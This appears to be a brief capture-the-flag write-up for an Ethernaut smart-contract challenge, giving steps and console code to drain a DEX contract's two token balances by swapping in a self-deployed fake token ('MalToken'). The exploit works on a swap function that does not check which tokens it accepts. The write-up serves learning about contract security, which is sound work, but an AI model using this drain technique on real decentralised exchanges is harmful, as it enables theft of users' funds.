 ## This challenge requires us to deploy a contract and call some functions on the ethernaut page

1. Deploy MalToken contract
2. Using the deployed contract, approve the ethernaut contract as a spender for some large amount (>= 300)
3. Since we can't call the add_liquidity function, we'll just transfer 100 MalToken to the contract. So the contract should now have a balance of 100 for MalToken
4. We can then call these functions in the ethernaut page:
```
const token1 = await contract.token1() 
const token2 = await contract.token2() 
malToken = <put in your deployed token address>

// clear out token1 balance
await contract.swap(malToken, token1, 100)

// the contract now has 200 malToken and 100 token2. So in order to clear out token2, we'd need to swap 200 malToken for token2
await contract.swap(malToken, token2, 200)
```

